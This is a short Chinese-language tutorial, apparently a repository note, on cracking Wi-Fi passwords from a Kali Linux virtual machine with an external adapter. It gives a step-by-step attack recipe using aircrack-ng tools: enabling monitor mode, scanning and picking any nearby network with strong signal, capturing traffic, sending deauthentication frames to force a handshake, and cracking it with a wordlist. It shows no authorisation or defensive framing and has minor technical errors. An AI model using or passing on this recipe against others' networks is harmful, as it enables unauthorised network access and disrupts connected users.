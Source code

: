 # 使用kali暴力破解wifi

## 准备工作

-   电脑 vmware虚拟机 kalilinux安装包 外置无线网卡
-   步骤
    1.  电脑BIOS中开启虚拟化
    2.  安装VMware虚拟机
    3.  安装Kali linux系统
    4.  将无线网卡挂载到虚拟机中并将网络设置为桥接模式

## 开始破解

1.  查看电脑中IP已经网卡信息

    >   ipconfig		# 用于查看IP信息 应该会有外置网卡

2.  打开网卡混杂模式

    >   airmon-ng start wlan0		#其中wlan0是我外置网卡对应的编号 自行修改

3.  杀掉一些进程

    >   airmon-ng check kill

4.  再次进行混杂(执行步骤2 混杂为wlan0mon)

5.  使用步骤1代码再次进行查看 发现已经有wlan0mon

6.  进行扫描周围的wifi 选择信号较强的一个即可

    >   airodump-ng wlan0mon

7.  进行监听

    >   airodump-ng -c xx --bssid xx:xx:xx:xx:xx:xx -w xxxx wlan0mon
    >
    >   -c 代表信道 --bssid表示MAC地址 -w表示要保存的文件名 最后是端口

8.  进行握手包抓取 (新建一个terminal) 成功会在原窗口出现handshake包

    >   sudo aireplay-ng -0 20 -c 目标机station -a 目标MAC地址 wlan0mon

9.  跑包 使用kali自带的字典

    >   aircrack-ng -w 字典名 包名










 



